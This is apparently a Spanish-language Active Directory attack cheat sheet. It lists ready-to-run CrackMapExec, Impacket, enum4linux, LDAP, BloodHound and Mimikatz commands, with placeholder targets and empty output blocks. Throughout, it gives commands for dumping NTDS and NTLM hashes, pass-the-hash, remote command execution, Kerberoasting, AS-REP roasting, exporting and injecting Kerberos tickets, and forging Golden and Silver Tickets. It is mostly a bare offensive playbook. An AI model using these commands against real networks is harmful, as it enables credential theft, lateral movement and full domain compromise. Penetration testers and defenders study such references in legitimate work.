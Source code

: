 # Crackmapexec

## Información básica 
`crackmapexec smb 10.10.10.10`

```java

```
## Usuarios con credenciales válidas 
`crackmapexec smb 10.10.10.10 -u usuario -p password --users`

```java

```
## Recursos compartidos 
`crackmapexec smb 10.10.10.10 -u usuario -p password --shares`

```java

```
## Dumping Hashes
`crackmapexec smb 10.10.10.10 -u usuario -p password --ntds`

```java

```
## Pass the Hash 
`crackmapexec smb 10.10.10.10 -u usuario -H "hash"`

```java

```
## Ejecución remota de comandos (RCE) 
`crackmapexec smb 10.10.10.10 -u Administrator -H "hash" -x "ipconfig"`

```java

```
## Políticas de dominio 
`crackmapexec smb 10.10.10.10 -u usuario -p password --policies`

```java

```

# Impacket

## Enumerar SPNs (Service Principal Names) 
`python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py dominio/usuario:password@10.10.10.10`

```java

```
## Kerberoasting 

`python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.10 dominio/usuario:password`

```java

```
## AS-REP Roasting 
`python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py dominio/ -no-pass -usersfile usuarios.txt -dc-ip 10.10.10.10`

```java

```

## Hashes dumping 
###### Dumping NTLM Hashes
`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py dominio/usuario:password@10.10.10.10`

```java

```
###### Using Pass the Hash for dumping NTLM Hashes
`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py dominio/usuario@10.10.10.10 -hashes lmhash:nthash`

```java

```
###### Pass the Hash 
`python3 /usr/share/doc/python3-impacket/examples/wmiexec.py dominio/usuario@10.10.10.10 -hashes lmhash:nthash`

`python3 /usr/share/doc/python3-impacket/examples/smbexec.py dominio/usuario@10.10.10.10 -hashes lmhash:nthash`

`python3 /usr/share/doc/python3-impacket/examples/atexec.py dominio/usuario@10.10.10.10 -hashes lmhash:nthash`

```java

```

# Enum4linux

## Información general
`enum4linux -a 10.10.10.10`

```java

```
## Usuarios
`enum4linux -U 10.10.10.10`

```java

```
## Recursos compartidos
`enum4linux -S 10.10.10.10`

```java

```

# LDAP

## Enumerar objetos LDAP
`ldapsearch -x -h 10.10.10.10 -D "cn=usuario,dc=dominio,dc=com" -w 'password' -b "dc=dominio,dc=com"`

```java

```

## Buscar usuarios en AD
`ldapsearch -x -h 10.10.10.10 -D "cn=usuario,dc=dominio,dc=com" -w 'password' -b "dc=dominio,dc=com" "(objectClass=user)"`

```java

```

# Bloodhount

## Instalación de Bloodhound y neo4j 
`sudo apt install bloodhound neo4j`
`sudo neo4j console`
`bloodhound`

```java

```

## Ejecutar Sharphound en el host 
Descargar [SharpHound](https://github.com/BloodHoundAD/BloodHound)

`.\SharpHound.exe -c All`

```java

```

# Mimikatz

## Dumping hashes 
`privilege::debug`
`lsadump::lsa /patch`

```java

```

## Pass the Ticket 
###### Dumping ticket Kerberos
`sekurlsa::tickets /export`
###### Usar ticket Kerberos
`kerberos::ptt ticket.kirbi`
###### Listar tickets Kerberos
`kerberos::list`

```java

```

## Golden and Silver Ticket
###### Crear un Golden Ticket
`kerberos::golden /user:usuario /domain:dominio.com /sid:S-1-5-21-... /krbtgt:krbtgt_hash /id:500`
###### Crear un Silver Ticket
`kerberos::golden /user:usuario /domain:dominio.com /sid:S-1-5-21-... /target:servidor /service:cifs /rc4:hash /id:500`
###### Inyectar Tickets
`kerberos::ptt ticket.kirbi`


